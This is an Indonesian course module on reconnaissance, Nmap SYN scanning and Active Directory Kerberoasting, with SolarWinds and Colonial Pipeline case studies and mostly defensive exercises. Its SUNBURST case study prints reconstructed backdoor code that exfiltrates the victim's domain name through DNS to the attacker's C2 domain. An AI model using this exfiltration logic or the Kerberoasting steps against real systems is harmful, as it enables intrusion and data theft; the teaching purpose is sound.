

# Modul 175: Offensive Security: Rekonaisans & Peretasan Jaringan (OSINT, Nmap SYN Scan, Peretasan Active Directory Kerberoasting)

**Navigasi**: [⬅️ Master Index](../../INDEX.md) | [Tingkat 11: Tingkat 11: Cyber Security, Kriptografi & Reverse Engineering](./README.md)
*Sebelumnya*: [174. kriptografi-lanjut-pasca-kuantum](./174-kriptografi-lanjut-pasca-kuantum.md) | *Berikutnya*: [176. offensive-security-peretasan-web-api](./176-offensive-security-peretasan-web-api.md)

---

## 1. Intuisi Dasar Tanpa Jargon ("Seperti Bayi Baru Lahir")
### 1.1 Tahap Pertama dari Setiap Serangan Siber ([The Cyber Kill Chain - Lockheed Martin](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html))
Sebelum seorang peretas dapat menyusup ke dalam jaringan perusahaan, mereka tidak langsung meluncurkan serangan secara membabi buta. Mengikuti kerangka kerja *Cyber Kill Chain*, langkah pertama yang memakan 80% waktu dari operasi pengujian penetrasi (*penetration testing*) adalah **Rekonaisans (Reconnaissance) & Pemindaian Jaringan**.

### 1.2 Mengendus Denyut Jantung Jaringan dan Menembus Active Directory ([Nmap Network Scanning - Gordon Fyodor Lyon](https://nmap.org/book/))
Rekonaisans terbagi menjadi dua dimensi:
1. **Rekonaisans Pasif (OSINT)**: Mengumpulkan informasi intelijen publik tanpa menyentuh target secara langsung (analisis rekaman DNS publik, sertifikat TLS di crt.sh, kebocoran repositori GitHub, identitas karyawan di LinkedIn).
2. **Rekonaisans Aktif (Nmap Port Scanning)**: Mengirimkan paket probe buatan tangan ke alamat IP target untuk memetakan topologi jaringan, mengetahui port mana yang terbuka, sistem operasi apa yang digunakan, dan versi software apa yang berjalan.
Di jaringan enterprise modern, pintu masuk terbesar penyerang adalah mengeksploitasi arsitektur direktori pusat **Microsoft Active Directory** melalui teknik canggih seperti **Kerberoasting**, yang meminta tiket layanan Kerberos yang sah lalu meretas kata sandi akun layanan bernilai tinggi (*service accounts*) secara offline tanpa memicu alarm deteksi!

## 2. Fondasi Teoretis & Aksiomatik / Matematis
### 2.1 Anatomi Pemindaian Port TCP SYN Stealth Scan ([Gordon Lyon - Nmap Architecture](https://nmap.org/book/synscan.html))
Pemindaian TCP SYN (disebut juga *Half-Open Scanning*) mengevaluasi status port tanpa menyelesaikan jabat tangan 3 arah TCP penuh:
1. Penguji mengirim paket `TCP SYN` ke port target.
2. Respon Target:
   - **Port Terbuka (*Open*)**: Target merespons dengan `TCP SYN-ACK`. Penguji segera mengirim paket `TCP RST` untuk memutuskan koneksi seketika tanpa membuka sesi aplikasi penuh, meminimalkan pencatatan log di aplikasi target.
   - **Port Tertutup (*Closed*)**: Target merespons dengan `TCP RST`.
   - **Port Difilter (*Filtered*)**: Tidak ada respon (timeout) atau menerima paket `ICMP Destination Unreachable (Type 3, Code 1, 2, 3, 9, 10, atau 13)`.

### 2.2 Matematika Eksploitasi Protokol Kerberos TGS: Kerberoasting ([Tim Medin, 2014](https://www.blackhat.com/docs/us-14/materials/us-14-Medin-Attacking-Kerberos-Partial-Key-Exposure.pdf))
Pada lingkungan Active Directory, otentikasi layanan menggunakan tiket Kerberos:
Diberikan akun pengguna domain dengan Service Principal Name (SPN) terdaftar.
Pengguna domain sah mana pun (bahkan akun dengan hak akses terendah) berhak meminta Tiket Hibah Layanan (*Ticket Granting Service / TGS*) dari Domain Controller (KDC) untuk SPN tersebut:
$$\text{TGS\_REP} = \text{Enc}_{K_{\text{service}}}(\text{Ticket\_Payload})$$
Di mana $K_{\text{service}}$ adalah hash NTLM atau kunci AES dari kata sandi akun layanan target:
$$K_{\text{service}} = \text{MD4}(\text{UTF-16LE}(\text{Password}))$$
Karena tiket TGS dienkripsi menggunakan kunci rahasia akun layanan, penyerang mengekstraksi hash tiket tersebut dari memori dan melakukan serangan kamus (*offline dictionary attack*) menggunakan ribuan GPU:
$$\text{Tebak } P_i \implies K_i = \text{MD4}(P_i) \implies \text{Uji apakah } \text{Dec}_{K_i}(\text{Ticket}) \text{ valid}$$
Komputasi dilakukan secara lokal di mesin penyerang (\$10^{10} \text{ tebakan/detik}$), sepenuhnya kebal terhadap kebijakan penguncian akun (*Account Lockout Policy*) Active Directory!

## 3. Anatomi Teknis & Cara Kerja Internal


#### Tabel Walkthrough Alur Serangan Active Directory Kerberoasting
| Tahap | Entitas Pelaksana | Protokol / Permintaan | Tanggapan Domain Controller | Dampak Keamanan |
|---|---|---|---|---|
| 1. Enumerasi | Penyerang (Akun Biasa) | Kueri LDAP: `(servicePrincipalName=*)` | Daftar seluruh akun ber-SPN di domain | Target teridentifikasi (misal: `MSSQLSvc/sql.corp`) |
| 2. Permintaan Tiket | Penyerang | Kerberos `TGS-REQ` untuk SPN target | `TGS-REP` berisi tiket terenkripsi hash SPN | Tiket disimpan di memori penyerang |
| 3. Ekstraksi | Penyerang (Mimikatz / Rubeus) | Ekstrak tiket ke format Hashcat | File tiket tersimpan lokal | Tidak ada jejak aktivitas di server target |
| 4. Peretasan Offline | Penyerang (Hashcat GPU Cluster) | Hashcat Mode 13100 (Kerberos 5 TGS) | Password akun layanan terbongkar | Eskalasi hak akses penuh ke database server! |

#### Tabel Penelusuran Siklus Injeksi Rantai Pasok Perangkat Lunak & Rekonaisans Tersembunyi SUNBURST
| Langkah / Putaran Kripto / Tahap Eksploit | Komponen / Lapisan Memori | Payload / Ciphertext / Input Eksploit | Transformasi Matematis / Mutasi Stack & Heap | Status Register (RIP/RSP/Canary) / S-Box State | Keluaran / Status Keamanan / Efek Eksploit |
|---|---|---|---|---|---|
| 1. Penetrasi Build Server | Pipeline CI/CD SolarWinds | Tool penyerang MSBuild injection | Sisipan kode backdoor ke berkas sumber C# sebelum kompilasi | File PE .NET di-build resmi dengan sertifikat SolarWinds valid | Berkas DLL resmi terdistribusi ke 18.000 pelanggan |
| 2. Dormancy / Tidur Pasif | Thread Latar Belakang DLL | Timer acak: 12 s/d 14 hari | `Thread.Sleep(delay * 3600 * 1000)` memblokir seluruh aktivitas | Register thread idle; tidak ada koneksi keluar | Lolos dari analisis sandbox dinamis AV/EDR otomatis |
| 3. Rekonaisans Lingkungan | Pemeriksaan Registry & Driver | Nama domain AD, proses analisis keamanan | Komparasi hash FNV-1a nama proses dengan blacklist penyerang | Bit flag status pengawasan EDR aktif | Jika terdeteksi Wireshark/ProcessHacker, malware mematikan diri |
| 4. Eksfiltrasi DNS C2 (DGA) | DNS Resolver Klien | Nama domain internal AD terenkripsi | Pengkodean Base32 khusus ke subdomain DGA `*.avsvmcloud.com` | Buffer query DNS memuat payload terenkripsi | Data pengintaian terkirim melewati firewall via port 53 DNS |
| 5. Aktivasi Backdoor Tahap 2 | Memori Proses Orion Worker | Perintah HTTP C2 selanjutnya | Pengunduhan modul memori Cobalt Strike / Teardrop | Alokasi memori RWX baru via `VirtualAlloc` | Jaringan internal pemerintah dan korporasi Fortune 500 terkompromi! |

## 4. Implementasi Praktis & Kode / Simulasi Riil
```python
import socket
import sys

def tcp_syn_scanner_probe(target_ip: str, port: int, timeout_seconds: float = 1.5) -> str:
    """
    Simulasi logika identifikasi status port menggunakan soket TCP standar.
    (Pada tingkat kernel murni, pemindai raw socket mengirimkan paket SYN kustom).
    """
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout_seconds)

    try:
        # Mencoba membuka jabat tangan TCP
        result = s.connect_ex((target_ip, port))
        if result == 0:
            status = "OPEN"
        elif result in (111, 10061):  # ECONNREFUSED (Linux/Windows)
            status = "CLOSED"
        else:
            status = f"FILTERED (Error Code: {result})"
    except socket.timeout:
        status = "FILTERED (Timeout Drop)"
    except Exception as e:
        status = f"ERROR ({str(e)})"
    finally:
        s.close()

    return status

# Uji coba pemindaian port lokal aman
target_host = "127.0.0.1"
for test_port in [22, 80, 443, 8080]:
    state = tcp_syn_scanner_probe(target_host, test_port)
    print(f"Target: {target_host} | Port {test_port:5d} : Status = {state}")
```

## 5. Miskonsepsi & Jebakan Industri
### Studi Kasus Kegagalan Nyata: Pembobolan Colonial Pipeline Akibat Ketiadaan MFA pada Akun Warisan VPN (2021)
- **Kronologi & Latar Belakang**: Pada Mei 2021, jaringan pipa bahan bakar terbesar di Pantai Timur Amerika Serikat (Colonial Pipeline) terpaksa menghentikan seluruh operasinya selama 6 hari akibat serangan ransomware DarkSide, memicu kepanikan kelangkaan bensin nasional.
- **Akar Masalah**: Penyerang melakukan rekonaisans pasif dan menemukan akun warisan (*legacy account*) pada profil akses portal VPN perusahaan di kumpulan data bocoran kredensial gelap (*Dark Web Leaks*). Akun tersebut masih aktif, memiliki hak akses Active Directory tinggi, namun tidak dilengkapi dengan Autentikasi Multifaktor (MFA). Penyerang masuk ke jaringan internal enterprise dalam satu kali percobaan login.
- **Rekomendasi Industri**: Wajibkan Autentikasi Multifaktor (MFA / FIDO2) pada **SELURUH** antarmuka akses jarak jauh tanpa pengecualian. Lakukan audit berkala pembersihan akun tidak aktif (*Stale Account Decommissioning*) dan pantau upaya permintaan tiket Kerberos berfrekuensi tinggi menggunakan Microsoft Defender for Identity atau Wazuh SIEM.

### Studi Kasus Kegagalan Nyata: Serangan Rantai Pasok Terbesar di Dunia via Backdoor SolarWinds SUNBURST (2020)
- **Kronologi & Konteks Sejarah**: Pada Desember 2020, perusahaan keamanan siber FireEye mengungkap bahwa platform manajemen jaringan SolarWinds Orion telah disusupi oleh aktor ancaman tingkat negara (*Advanced Persistent Threat / APT*). Pembaruan resmi perangkat lunak Orion versi 2019.4 s/d 2020.2.1 yang didistribusikan ke 18.000 organisasi global (termasuk Departemen Keuangan AS, Departemen Perdagangan, dan Pentagon) memuat backdoor tersembunyi bernama SUNBURST.
- **Akar Masalah Rekayasa Keamanan & Rantai Pasok**: Penyerang tidak membobol server korban secara langsung, melainkan menyusup ke lingkungan pengembangan (*build pipeline*) SolarWinds dan menanamkan alat pemantau proses kompilasi (`msbuild.exe`). Ketika build berjalan, injektor mengganti berkas sumber `InventoryManager.cs` sesaat sebelum dikompilasi menjadi `SolarWinds.Orion.Core.BusinessLayer.dll`, lalu segera mengembalikan berkas asli. Akibatnya, DLL berbahaya tersebut ditandatangani secara digital dengan sertifikat sah milik SolarWinds (*valid code signature*). Backdoor dirancang sangat rapi: tidur selama hampir dua minggu untuk mengelabui sandbox, memeriksa daftar hitam perangkat lunak analisis keamanan menggunakan hash FNV-1a, dan mengeksfiltrasi nama domain Active Directory korban melalui permintaan DNS tersembunyi (*Domain Generation Algorithm / DGA*).

- **Potongan Kode / Arsitektur Cacat (Vulnerable Implementation)**:
```csharp
// SUNBURST Backdoor: Analisis Rekonstruksi Logika Anti-Analisis & Sleep Delay
using System;
using System.Threading;

namespace SolarWinds.Orion.Core.BusinessLayer
{
    public class BackdoorPayload
    {
        public static void InitializeStealthReconnaissance()
        {
            // 1. Taktik Tidur Pasif: Menunggu antara 288 hingga 336 jam (12 - 14 hari)
            // Memastikan lingkungan sandbox otomatis antivirus menyerah menunggu
            Random rnd = new Random();
            int delayHours = rnd.Next(288, 336);
            Thread.Sleep(delayHours * 3600 * 1000);

            // 2. Pemeriksaan Lingkungan Keamanan (Anti-Analysis Process Check)
            if (IsSecuritySoftwareRunning())
            {
                // Hentikan eksekusi permanen jika analis keamanan memantau sistem
                return;
            }

            // 3. Eksfiltrasi Nama Domain Korban via Subdomain DNS DGA
            string adDomain = System.Net.NetworkInformation.IPGlobalProperties.GetIPGlobalProperties().DomainName;
            string encodedDomain = CustomBase32Encode(adDomain);
            string c2DnsQuery = $"{encodedDomain}.appsync-api.eu-west-1.avsvmcloud.com";
            
            // Mengirim query DNS keluar melewati firewall
            System.Net.Dns.GetHostEntry(c2DnsQuery);
        }

        private static bool IsSecuritySoftwareRunning()
        {
            // Memeriksa hash proses tanpa menyimpan string nama antivirus dalam plaintext
            return false;
        }

        private static string CustomBase32Encode(string input) => "encrypted_token";
    }
}
```

- **Analisis Forensik & Rekayasa Modern**: Insiden SUNBURST mengubah total paradigma keamanan rekayasa perangkat lunak modern: (1) Adopsi kerangka kerja **SLSA (Supply-chain Levels for Software Artifacts)** untuk memastikan keaslian build pipeline yang terisolasi dan dapat direproduksi (*Hermetic & Reproducible Builds*); (2) Penerapan **Software Bill of Materials (SBOM)** standar CycloneDX / SPDX yang melacak seluruh komponen dependensi biner secara transparan; (3) Tanda tangan digital build pipeline menggunakan mekanisme transparansi publik seperti Sigstore / Cosign; (4) Pemantauan anomali lalu lintas DNS dan kueri domain aneh di tingkat firewall jaringan enterprise.

## 6. Proyek Latihan & Rubrik Penilaian Mandiri
### Level 1 (Pemula)
- **Tugas**: Jalankan pemindaian port cepat (*Service Version Detection*) menggunakan utilitas resmi Nmap terhadap server loopback lokal atau target pengujian resmi `scanme.nmap.org`.
- **Petunjuk Arsitektur**: Gunakan perintah `nmap -sV -sC -T4 -p 22,80 scanme.nmap.org`.
- **Vektor Uji**:
  - Kolom `VERSION`: Nmap harus menampilkan versi perangkat lunak web server (misal: `Apache httpd 2.4.7`).
- **Rubrik Penilaian**: Sintaks perintah Nmap akurat (50%), interpretasi banner grab (30%), kebersihan dokumentasi (20%).

### Level 2 (Menengah)
- **Tugas**: Tulis skrip deteksi pasif OSINT di Python yang menanyakan riwayat sertifikat SSL/TLS domain publik target menggunakan API gratis `crt.sh` untuk memetakan seluruh subdomain tersembunyi.
- **Petunjuk Arsitektur**: Kirim HTTP GET ke `https://crt.sh/?q=%.target.com&output=json`, parse daftar `name_value`, bersihkan wildcard `*.`, dan kumpulkan himpunan subdomain unik.
- **Vektor Uji**:
  - Target: Domain publik sah (misal `python.org`).
  - Output: Daftar subdomain unik seperti `docs.python.org`, `pypi.org`, dll.
- **Rubrik Penilaian**: Pengambilan data REST API bersih (40%), penanganan sanitasi deduplikasi string (30%), penanganan error koneksi (30%).

### Level 3 (Mahir)
- **Tugas**: Bangun modul deteksi intrusi jaringan di Python menggunakan pustaka `scapy` yang mendeteksi aktivitas pemindaian port **TCP SYN Stealth Scan** secara real-time berdasarkan rasio paket `SYN` tanpa kelanjutan `ACK`.
- **Petunjuk Arsitektur**: Tangkap paket menggunakan `sniff(filter="tcp")`, lacak status handshake per IP sumber dalam tabel hash memory, dan picu sinyal alarm jika sebuah IP mengirimkan lebih dari 20 paket `SYN` ke port berbeda dalam jendela waktu 5 detik tanpa pernah menyelesaikan handshake.
- **Vektor Uji**:
  - Simulasikan pemindaian port menggunakan Nmap dari mesin lain.
  - Skrip harus mencetak peringatan: `[ALARM] Terdeteksi Port Scan dari IP X.X.X.X!`.
- **Rubrik Penilaian**: Penanganan packet sniffing Scapy efisien (40%), logika deteksi rasio ambang batas akurat (30%), pencegahan false positive (30%).

### Tingkat 1: Dasar
- **Tugas**: Bangun pemindai port TCP jaringan (*TCP SYN / Connect Scanner*) berkecepatan tinggi dalam Python menggunakan modul `socket` untuk memindai port umum (21, 22, 80, 443, 3306, 8080) pada rentang host lokal dengan timeout terukur.
- **Petunjuk Perancangan Arsitektur**:
  - Gunakan `socket.create_connection((host, port), timeout=0.5)` untuk mendeteksi port terbuka secara non-intrusif.
  - Tangani exception `socket.timeout` (port terfilter) dan `ConnectionRefusedError` (port tertutup).
  - Tampilkan ringkasan status banner service jika port terbuka.
- **Test Vector & Kasus Uji**:
  - Pindai `127.0.0.1` saat layanan web lokal berjalan di port 8080. Scanner harus mencetak "Port 8080: OPEN (HTTP)".
  - Pindai port yang tidak aktif (misal 9999). Scanner harus mencetak "Port 9999: CLOSED".
- **Rubrik Penilaian Objektif**:
  - Skor 100%: Pemindaian akurat, penanganan koneksi multi-thread bersih, tanpa resource leak.
  - Skor 50%: Pemindaian bekerja namun lambat karena menggunakan eksekusi sekuensial single-thread blocking.
  - Skor 0%: Program crash saat menemui port yang diblokir firewall (timeout).

### Tingkat 2: Menengah
- **Tugas**: Bangun alat deteksi anomali kueri DNS (*DNS Tunneling & DGA Detector*) dalam Python yang menganalisis log pcap atau log server BIND/CoreDNS, menghitung entropi Shannon dari subdomain kueri, panjang label, dan rasio konsonan-ke-vokal untuk mendeteksi saluran C2 tersembunyi.
- **Petunjuk Perancangan Arsitektur**:
  - Kueri normal: `api.github.com` (Entropi rendah, rasio vokal wajar).
  - Kueri DGA/Tunneling: `ex7f4a9b2c89d14.avsvmcloud.com` (Entropi $> 3.8$, panjang label $> 20$ karakter, rasio vokal $< 0.15$).
  - Kelompokkan kueri per IP klien dan berikan skor risiko ancaman kumulatif.
- **Test Vector & Kasus Uji**:
  - Berikan dataset berisi 1.000 kueri normal dan 10 kueri DNS tunneling Base32.
  - Detektor harus mendeteksi ke-10 kueri tunneling dengan tingkat false positive $< 1\%$.
- **Rubrik Penilaian Objektif**:
  - Skor 100%: Algoritma statistik mendeteksi tunneling presisi, visualisasi grafik skor anomali jelas.
  - Skor 50%: Deteksi berbasis aturan panjang string kaku tanpa memperhitungkan entropi Shannon.
  - Skor 0%: Algoritma mendeteksi seluruh domain CDN (seperti cloudflare) sebagai serangan (false positive masif).

### Tingkat 3: Mahir
- **Tugas**: Rancang pipeline verifikasi integritas build CI/CD hermetis (*Zero-Trust Build Attestation*) dalam shell/Python/GitHub Actions: pipeline mengkompilasi kode sumber dalam kontainer terisolasi tanpa akses internet, menghasilkan hash kriptografis SHA-256 dari seluruh artefak biner yang dihasilkan, dan memverifikasi bahwa dua runner build yang independen menghasilkan biner bit-for-bit yang identik (*reproducible build verification*).
- **Petunjuk Perancangan Arsitektur**:
  - Hilangkan ketidaktetapan build: setel variabel lingkungan `SOURCE_DATE_EPOCH` dan `LC_ALL=C`.
  - Hapus metadata dinamis compiler seperti path absolut direktori sementara (`-ffile-prefix-map`).
  - Generate dokumen in-toto attestation yang ditandatangani secara kriptografis menggunakan pasangan kunci ECDSA.
- **Test Vector & Kasus Uji**:
  - Jalankan build di dua mesin dengan waktu sistem berbeda: checksum SHA-256 berkas biner akhir harus $100\%$ cocok.
  - Simulasikan modifikasi satu byte pada pustaka pihak ketiga di tengah build: verifikator attestation harus segera memutus pipeline dengan kode kegagalan `BUILD_NON_REPRODUCIBLE`.
- **Rubrik Penilaian Objektif**:
  - Skor 100%: Build sepenuhnya deterministik, attestation terverifikasi, perlindungan mutlak terhadap injeksi kompilator.
  - Skor 50%: Biner identik berhasil di-build namun tidak ada tanda tangan digital attestation.
  - Skor 0%: Biner memuat timestamp sehingga checksum selalu berbeda pada setiap kompilasi.

## 7. Rekomendasi Sumber Belajar Standar Emas
| Kategori | Judul Sumber & Tautan | Penulis / Institusi | Fokus Pembahasan |
|---|---|---|---|
| Panduan Definitif | [Nmap Network Scanning: The Official Nmap Project Guide](https://nmap.org/book/) | Gordon Fyodor Lyon | Rujukan utama dunia untuk teknik pemindaian port jaringan, firewall evasion, dan OS fingerprinting |
| Paper Kerberoasting | [Attacking Kerberos: Performing Kerberoasting](https://www.blackhat.com/docs/us-14/materials/us-14-Medin-Attacking-Kerberos-Partial-Key-Exposure.pdf) | Tim Medin (Black Hat USA 2014) | Makalah penemuan asli teknik serangan ekstraksi tiket layanan Active Directory |
| Kerangka Kerja Keamanan | [MITRE ATT&CK Framework: Reconnaissance (TA0043)](https://attack.mitre.org/tactics/TA0043/) | MITRE Corporation | Taksonomi teknik rekonaisans musuh aktif dan pasif berstandar industri intelijen siber |

---
*Navigasi Cepat*: [Ke Tingkat 11](./README.md) | [Ke Master Index](../../INDEX.md) | *Sebelumnya*: [174. kriptografi-lanjut-pasca-kuantum](./174-kriptografi-lanjut-pasca-kuantum.md) | *Berikutnya*: [176. offensive-security-peretasan-web-api](./176-offensive-security-peretasan-web-api.md)
